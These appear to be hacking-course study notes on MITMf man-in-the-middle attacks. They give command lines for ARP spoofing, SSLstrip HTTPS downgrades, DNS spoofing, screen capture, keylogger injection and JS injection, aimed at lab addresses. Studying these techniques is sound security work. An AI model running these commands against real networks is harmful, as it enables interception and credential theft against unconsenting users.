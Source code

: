                 mitmf --arp --spoof -i <interface> --target <clientIP> --gateway <gatewayIP>

* The tool starts automatically a sniffer, that catches data that it is send by the devices. Try with vulnweb.com
* NOTE: might need to deinstall and reinstall older version of Twisted library

### Bypass HTTPS -> check version with bettercap (simpler)

* Previous attack only work agains HTTP requests, because data in HTTP is sent as plain text. MITM can thus read and edit requests and responses
* HTTPS encrypt HTTP using TLS (Transport Layer Security) or SSL (Secure Sockets Layer), very difficult to break
* Easiest solution is to downgrade HTTPS to HTTP, ie present the HTTP version of a website instead of the HTTPS version.
* Use SSLstrip, automatically loaded with mitmf
* NOTE: you need to lauch arpspoof and port forwarding alongside mitmf in order to be able to downgrade traffic
* Exception: website that use HSTS
        * HTTP Strict Transport Security
        * Used by Google, Facebook, Paypal ...
        * Modern browsers are hard-coded to only load a list of HSTS websites over https => no practical method to bypass at the moment (see below however :-) 

### DNS spoofing -> check version with bettercap (simpler)

* DNS (Domain Name System) is a server that translates domain names to IP addresses
* As a Man in The Middle we can run a DNS server on our computer and redirect a user to another website

        //start apache server
        service apache2 start
        
        //edit DNS
        leafpad /etc/mitmf/mitmf.conf

        //for example, this will redirect all *.live.com address to the current computer

        [[[A]]]     # Queries for IPv4 address records
		*.thesprawl.org=192.168.178.27
		*.live.com=10.0.2.15

        //launch mitmf with dns option

        mitmf --arp --spoof -i eth0 --target 10.0.2.4 --gateway 10.0.2.1 --dns

### Capturing screen of target and inject keylogger -> check version with bettercap (simpler)

        mitmf --arp --spoof -i eth0 --target 10.0.2.4 --gateway 10.0.2.1 --screen

### Injecting custom JS or HTML code -> check version with bettercap (simpler)

        mitmf --arp --spoof -i eth0 --target 10.0.2.4 --gateway 10.0.2.1 --inject
